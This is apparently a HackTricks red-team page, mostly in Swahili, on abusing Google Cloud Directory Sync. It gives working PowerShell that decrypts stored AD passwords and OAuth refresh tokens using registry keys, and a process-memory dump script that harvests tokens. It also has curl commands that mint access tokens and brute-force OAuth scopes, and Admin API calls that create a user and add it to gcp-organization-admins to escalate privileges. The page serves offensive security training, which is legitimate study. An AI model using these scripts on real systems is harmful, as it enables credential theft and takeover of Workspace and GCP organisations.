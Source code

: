 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Hii ni zana ambayo inaweza kutumika **kusawazisha watumiaji na vikundi vya active directory kwenye Workspace yako** (na si kinyume chake wakati wa kuandika hii).

Ni ya kuvutia kwa sababu ni zana ambayo itahitaji **akidi za mtumiaji wa Workspace superuser na mtumiaji wa AD mwenye mamlaka**. Hivyo, inaweza kuwa inawezekana kuipata ndani ya seva ya domain ambayo itakuwa ikisawazisha watumiaji mara kwa mara.

{% hint style="info" %}
Ili kufanya **MitM** kwa **`config-manager.exe`** binary ongeza tu mstari ufuatao kwenye faili la `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Kumbuka kwamba [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) ina uwezo wa kugundua **GCDS**, kupata taarifa kuhusu usanidi na **hata nywila na akidi zilizofichwa**.
{% endhint %}

Pia kumbuka kwamba GCDS haitasawazisha nywila kutoka AD hadi Workspace. Ikiwa kuna kitu itazalisha tu nywila za nasibu kwa watumiaji wapya walioundwa katika Workspace kama unavyoona kwenye picha ifuatayo:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

Binary `config-manager.exe` (binary kuu ya GCDS yenye GUI) itahifadhi akidi za Active Directory zilizowekwa, token ya refresher na ufikiaji kwa default katika **xml file** kwenye folda **`C:\Program Files\Google Cloud Directory Sync`** katika faili inayoitwa **`Untitled-1.xml`** kwa default. Ingawa inaweza pia kuhifadhiwa katika `Documents` za mtumiaji au katika **folda nyingine yoyote**.

Zaidi ya hayo, rejista **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** ndani ya ufunguo **`open.recent`** ina njia za faili zote za usanidi zilizofunguliwa hivi karibuni (xmls). Hivyo inawezekana **kuangalia ili kuzipata**.

Taarifa ya kuvutia zaidi ndani ya faili itakuwa:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Kumbuka jinsi **refresh** **token** na **password** ya mtumiaji zinavyokuwa **encrypted** kwa kutumia **AES CBC** na ufunguo na IV vilivyotengenezwa kwa bahati na kuhifadhiwa katika **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (popote ambapo maktaba ya **`prefs`** ya Java inahifadhi mapendeleo) katika funguo za mfuatano **`/Encryption/Policy/V2.iv`** na **`/Encryption/Policy/V2.key`** zilizohifadhiwa katika base64.

<details>

<summary>Powershell script ya kufungua **refresh token** na **password**</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Kumbuka kwamba inawezekana kuangalia habari hii kwa kuangalia msimbo wa java wa **`DirSync.jar`** kutoka **`C:\Program Files\Google Cloud Directory Sync`** ukitafuta mfuatano `exportkeys` (kama hiyo ndiyo param ya cli ambayo binary `upgrade-config.exe` inatarajia kutupa funguo).
{% endhint %}

Badala ya kutumia skripti ya powershell, pia inawezekana kutumia binary **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** na param `-exportKeys` na kupata **Key** na **IV** kutoka kwenye rejista kwa hex na kisha tumia cyberchef na AES/CBC na funguo hiyo na IV ili kufichua habari.

### GCDS - Kutupa tokeni kutoka kwenye kumbukumbu

Kama ilivyo na GCPW, inawezekana kutupa kumbukumbu ya mchakato wa `config-manager.exe` (hii ndiyo jina la binary kuu la GCDS lenye GUI) na utaweza kupata tokeni za refresha na ufikiaji (ikiwa tayari zimeundwa).\
Nadhani pia unaweza kupata akidi zilizowekwa za AD.

<details>

<summary>Dump config-manager.exe processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Kutengeneza alama za ufikiaji kutoka kwa alama za upya

Kwa kutumia alama ya upya, inawezekana kutengeneza alama za ufikiaji kwa kutumia hiyo na kitambulisho cha mteja na siri ya mteja zilizoainishwa katika amri ifuatayo:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Kumbuka kwamba hata kuwa na token ya kusasisha, siwezi kuomba scope yoyote kwa token ya ufikiaji kwani unaweza tu kuomba **scopes zinazoungwa mkono na programu ambapo unazalisha token ya ufikiaji**.

Pia, token ya kusasisha si halali katika kila programu.
{% endhint %}

Kwa default GCSD haitaweza kupata kama mtumiaji kwa kila scope ya OAuth inay posible, hivyo kutumia script ifuatayo tunaweza kupata scopes ambazo zinaweza kutumika na `refresh_token` kuzalisha `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Na hii ndiyo matokeo niliyopata wakati wa kuandika:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Unda mtumiaji na umuweke kwenye kundi `gcp-organization-admins` ili kujaribu kupandisha hadhi katika GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Haiwezekani kumpa mtumiaji mpya jukumu la Super Amin kwa sababu **token ya kusasisha haina maeneo ya kutosha** kutoa mamlaka yanayohitajika.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

